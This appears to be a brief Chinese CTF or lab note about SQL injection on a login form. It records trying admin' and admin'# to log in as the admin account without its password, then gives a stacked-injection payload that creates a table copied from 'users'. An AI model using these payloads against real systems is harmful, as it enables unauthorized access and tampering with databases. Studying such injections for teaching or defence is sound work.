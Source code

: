 测试username,password

admin'



再测admin‘#

password登陆admin账户成功。



堆叠注入。

```
admin';create table test like users;#
```
